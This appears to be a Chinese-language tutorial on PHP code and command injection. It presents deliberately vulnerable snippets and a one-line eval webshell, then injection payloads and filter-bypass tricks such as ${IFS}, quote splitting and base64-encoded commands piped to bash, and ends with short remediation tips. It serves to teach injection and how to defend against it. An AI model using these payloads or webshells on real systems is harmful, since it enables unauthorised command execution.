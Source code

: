 ```yaml
---
title: 命令注入漏洞
date: 2020-1-22 20:04:00
---
```

> 代码执行：可执行脚本语言代码
>
> 命令执行：可执行系统(Linux、windows)命令

## PHP敏感函数代码执行

```php
eval()		//把字符串作为PHP代码执行
assert()	//检查一个断言是否为 FALSE，可用来执行代码
preg_replace()	//执行一个正则表达式的搜索和替换
call_user_func()//把第一个参数作为回调函数调用
call_user_func_array()//调用回调函数，并把一个数组参数作为回调函数的参数
array_map()		//为数组的每个元素应用回调函数 
```

**eval：**

```php
<?php @eval($_POST["arg"])?>
```

eval函数会将提交上来的值作为PHP代码处理，可以提交phpinfo(); 或者生成一句话shell

```php
fputs(fopen('shell.php','w+'),'<?php @eval($_POST[pass])?>');
```

**preg_replace：(5.5版本以上已废弃/e修饰符)**

```php
<?php preg_replace("//e",$_GET['arg'],"start testing...");?>
```

当replacement 参数构成一个合理的php代码字符串的时候，/e 修正符将参数当做php代码执行

**create_function:**

```php
<?php $test=$_GET["test"];$new_func=create_function('$a,$b', $test);$new_func(2,M_E);?>
```

在php 中使用create_function创建一个匿名函数（lambda-style） 如未对参数进行严格的过滤审查，可以通过提交特殊字符串给create_function执行任意代码.

**使用`${${ }}`简单绕过：**

```php
<?php $str="echo \"Hello ".$_GET["arg"]."!!\"; ";eval($str);?>
```

代码使用反斜杠将echo后面的内容给转义了 与加addslashes()函数进行过滤是一样的 payload：`arg=${${phpinfo()}}`

## [PHP程序执行函数](https://www.php.net/manual/zh/ref.exec.php) 

```php
system()		//执行外部程序，并且显示输出
exec()			//执行一个外部程序
shell_exec()	//通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回
passthru()		//执行外部程序并且显示原始输出
pcntl_exec()	//在当前进程空间执行指定程序
popen()			//打开进程文件指针
proc_open()		//执行一个命令，并且打开用来输入/输出的文件指针
```

最简单的例子：

```
<?php $test = $_GET['cmd']; system($test); ?>
```

payload：`?cmd=whoami`  这样即可执行系统命令

**举一个类似DVWA里边的例子：**

```
<?php$test = $_GET['cmd'];system("ping -c 3 " . $test);?>
```

payload：`?cmd=127.0.0.1;whoami`

**命令分隔符：**

**在Linux上**，上面的 ; 也可以用 |、|| 代替

> ;前面的执行完执行后面的
>
> |是管道符，显示后面的执行结果
>
> ||当前面的执行出错时执行后面的
>
> 可用**%0A**换行执行命令



**在Windows上**，不能用 ; 可以用&、&&、|、||代替

>  &前面的语句为假则直接执行后面的
>
>  &&前面的语句为假则直接出错，后面的也不执行
>
>  |直接执行后面的语句
>
> ||前面出错执行后面的

PHP 支持一个执行运算符：反引号（``） PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回

```php
 <?php echo `whoami`;?>
```

效果与函数 shell_exec() 相同，都是以字符串的形式返回一个命令的执行结果，可以保存到变量中

## 命令执行绕过技巧

**正则审查**

> 是否使用多行模式修饰符（/foo/m）
>
> 是否遗漏匹配对象末尾的换行符（/^\d+$/）
>
> 是否允许空白字符（\s）
>
> 是否误写反斜杠匹配模式（/\\/） 

可用**%0A**换行执行命令，换行符自身是一个有效的**目录分隔符** 

```bash
cat 123/flag
cat 123%0A flag
```

**黑名单绕过**

```php
<?php
$test = $_GET['cmd'];
$test = str_replace("cat", "", $test);
$test = str_replace("ls", "", $test);
$test = str_replace(" ", "", $test);
$test = str_replace("pwd", "", $test);
$test = str_replace("wget", "", $test);
var_dump($test);
system("ls -al '$test'");
?>
```

**shell特殊变量：**ca$1t、ca$@t fla$@g 

**单引号、双引号：** c""at、ca''t、**反斜线** c\at

**base64编码：**`echo "Y2F0IGZsYWc="|base64 -d|bash`、**Hex编码：** echo "63617420666c6167" | xxd -r -p|bash 

**利用变量：** 执行ls命令： a=l;b=s;$a$b	**cat 1.php文件内容：** a=c;b=at;c=1.php;$a$b ${c}



**绕过空格** 

> 用**${IFS}**代替
>
> 读取文件的时候利用重**定向符cat<flag**
>
> 花括号无空格**{cat,666.txt}** 

`$IFS`可截断后边的内容，`cat flag$IFS666.txt`

**长度限制**，通过构造文件来绕过

> linux下可以用 1>a创建文件名为a的空文件
> `ls -t>test`则会将目录按时间排序后写进test文件中
> sh命令可以从一个文件中读取命令来执行

**引号逃逸**

恶意命令被扩在引号内，可用 \ 转义引号逃逸

## 修复方式

> 1、尽量不要使用以上的代码/命令执行函数
>
> 2、使用disable_funtion()禁用以上函数
>
> 3、过滤所有能当作命令分隔符使用的字符

